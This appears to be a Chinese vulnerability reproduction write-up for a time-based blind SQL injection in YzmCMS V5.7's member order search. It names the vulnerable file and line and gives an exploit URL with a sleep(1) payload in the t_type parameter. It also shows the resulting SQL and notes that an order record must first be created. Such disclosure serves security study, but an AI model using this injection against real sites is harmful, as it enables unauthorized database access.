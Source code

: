 YzmCMS V5.7 用户模块时间盲注
============================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS V5.7

三、复现过程
------------

`application/member/controller/order.class.php`:76行

这里直接拼接了where条件，type这里就有问题

![1.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId24.png)

构造url

    http://www.0-sec.org/member/order/order_search.html?of=id&or=DESC&dosubmit=1&&t_type=sleep(1)

调试跟一下可以看到如果传入的是数组会手动拆分进行预编译处理，但是我们这里是str
不是数组 所以就直接跳过处理

![2.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId25.png)直接带入数据库，完成sleep

![3.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId26.png)

看了下语句发现这里利用的时候有一个小问题，首先这里是查数据数，在该表没数据的情况下是不会sleep的，所以要先在yzm\_order中插入一条数据。![4.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId27.png)

    SELECT COUNT(*) AS total FROM `yzmcms` . `yzm_order` WHERE 1=1 AND `type` = sleep(1);

使用在线充值，会产生一条订单的数据

![5.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId28.png)

在没有配置支付的情况下会报错，但是这个订单是创建了。

![6.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId29.png)![7.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId30.png)这样就可以执行sleep了

![8.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId31.png)

时间注入![9.png](./.resource/YzmCMSV5.7用户模块时间盲注/media/rId32.png)

参考链接
--------

> https://xz.aliyun.com/t/7985\#toc-1
